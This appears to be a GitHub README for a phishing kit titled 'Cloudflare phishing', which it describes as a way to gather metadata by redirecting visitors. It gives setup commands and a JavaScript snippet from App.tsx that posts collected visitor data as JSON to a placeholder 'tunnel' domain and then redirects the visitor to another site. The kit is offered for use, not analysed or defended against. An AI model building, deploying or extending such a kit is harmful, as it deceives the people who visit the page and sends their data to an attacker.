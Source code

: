 ![Python](https://img.shields.io/badge/Python-3776AB?style=for-the-badge&logo=python&logoColor=white)
![Flask](https://img.shields.io/badge/Flask-000000?style=for-the-badge&logo=flask&logoColor=white)
![React](https://img.shields.io/badge/React-20232A?style=for-the-badge&logo=react&logoColor=61DAFB)
![TypeScript](https://img.shields.io/badge/TypeScript-007ACC?style=for-the-badge&logo=typescript&logoColor=white)
![Bun](https://img.shields.io/badge/Bun-000000?style=for-the-badge&logo=bun&logoColor=white)

# Cloudflare phishing
## That's useful thing for gathering meta-datas by using redirect in other sites.
---
### Getting start
- Installing dependencies
```bash
# In directory Frontend you have to install dependencies for bun
$ bun install

# In root directory, you have to install flask from requriments.txt
$ pip install -r requriments.txt
```
### CHANGES
- In directory Frontend, exists file App.tsx, you have to change below:
```js
// Redirect
setTimeout(() => {
      window.location.href = "http://<DOMAIN FOR REDIRECT>";
    }, 1000);

// Your tunnel
const response = await fetch(
      "http://<DOMAIN YOUR TUNNEL>",
      {
        method: "POST",
        headers: {
          "Content-Type": "application/json",
        },
        body: JSON.stringify(data),
      }
    );

```
![Cloudflare](https://external-content.duckduckgo.com/iu/?u=https%3A%2F%2Faetoswire.com%2Fstorage%2Fclients%2Fclient-6590%2Fcloudflare-logo.png&f=1&nofb=1&ipt=f3aa7db60d7aff2b18233ec9b7657ca42488796ee5df52b2116aadb56b27bc3e)
